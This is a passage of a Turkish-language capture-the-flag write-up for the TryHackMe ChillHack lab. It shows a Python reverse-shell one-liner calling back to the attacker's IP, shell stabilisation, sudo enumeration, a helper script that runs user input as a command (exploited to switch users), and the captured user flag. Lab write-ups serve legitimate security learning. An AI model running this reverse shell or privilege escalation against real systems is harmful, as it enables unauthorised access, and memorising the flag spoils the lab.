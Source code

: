 ![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a5.png?raw=true)

[Revshell](https://www.revshells.com/) sitesine giderek reverse shell kodunu kopyalıyorum.

```bash
export RHOST="10.14.61.127";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a6.png?raw=true)

Makineye giriş yapmayı başardım.

Shellimizi stabil hale getirelim.

```bash
python3 -c 'import pty;pty.spawn("/bin/bash")'
```

Apaar'ın ana dizinindeki local.txt bayrağına erişmeye çalışırken erişim reddedildi. Www-data kullanıcısının ayrıcalıklarını yükseltmemiz gerekecek gibi görünüyor.


```bash
ww-data@ubuntu:/home/apaar$ sudo -l
Matching Defaults entries for www-data on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin
User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

İlginç, dosyayı cat ile açalım.

```bash
www-data@ubuntu:/home/apaar$ cat .helpline.sh
#!/bin/bash
echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo
read -p "Enter the person whom you want to talk with: " person
read -p "Hello user! I am $person,  Please enter your message: " msg
$msg 2>/dev/null
echo "Thank you for your precious time!"
```

Bu dosya ile apaar kullanıcısına geçebiliriz.

![](https://github.com/umutsaglam/CTF-Writeups/blob/main/TryHackMe/ChillHack/images/a7.png?raw=true)

user bayrağını alalım.

```bash
apaar@ubuntu:~$ ls
ls
local.txt
apaar@ubuntu:~$ cat local.txt
cat local.txt
{USER-FLAG: e8vpd3323cfvlp0qpxxx9qtr5iq37oww}
```
